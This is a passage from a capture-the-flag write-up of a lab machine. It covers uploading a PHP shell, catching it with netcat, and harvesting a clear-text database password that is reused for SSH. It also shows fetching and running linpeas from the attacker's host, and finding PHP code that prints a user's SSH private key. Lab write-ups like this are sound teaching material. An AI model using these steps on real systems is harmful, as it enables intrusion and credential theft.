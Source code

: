 So, now that I was able to upload the ```script.php``` file, I just started listening with ```nc -lvnp 4444``` and browsed to ```http://10.10.10.171/ona/script.php```.

Get a proper shell by running 
```
www-data$  python3 -c ‘import pty; pty.spawn(“/bin/bash”)’
Press CTRL-Z
kali$  stty raw -echo
kali$  fg
Press enter once more
```

## Poking around

Ok, now we're **www-data** in the server. In ```/etc/passwd``` there are two users: ```jimmy``` and ```joanna```.

Looking around at the web server's main folder, ```/var/www```, we see there's a folder, ```opt/ona```, which has some interesting files. Namely, ```/var/www/opt/ona/www/local/config/database_settings.inc.php```. This is a file for accessing mysql databases. In there, there's a clear text passwd: **n1nj4W4rri0R!** for the user: **ona_sys**.

Here, we've got a somewhat real life scenario. Some people don't usually have much interest in remembering a lot of passwords. Thus, they use the same for many services. I attempted the mentioned password for the previously found users and it turned out this gave me access to jimmy via ssh.
```
ssh jimmy@10.10.10.171
```

## Lateral movement

```jimmy``` turned out to not be the user I was hoping for. So it must be ```joanna``` who has the flag. Obviously, joanna's files were not accessible. So we have to find a way of moving laterally.

The first thing that I attempted was to get information from the ```mysql``` database. The configurations for it are in the ```/etc/mysql``` folder. In the configuration file we find that the port for the DB is 3306. Using the credentials found for the mysql DB, I logged in and performed a dump of the DB (with ```mysql -u ona_sys -p```), but I found nothing interesting.

I then ran [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS):
```
kali$  python3 -m http.server 8080
jimmy$  wget “http://10.10.14.111:8080/linpeas.sh
jimmy$  chmod +x linpeas.sh
jimmy$  ./linpeas.sh -a > linpeasReport.txt
```

The linpeas report showed that there were some user writable files in ```/var/www/internal/```. These were ```main.php```, ```logout.php``` and ```index.php```. ```index.php``` turned out to be a login page which had hardcoded credentials
```
username==jimmy
password== {sha512 hash}
```

Since they are writable, we don't even need to crack the hash. We can just change it for a hash of our own of which we do know the clear text. This is, however, of no use to us so far.

```index.php```, on successful authentication, redirected to ```main.php```. In that php file, there was an interesting command:
```php
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>"
```
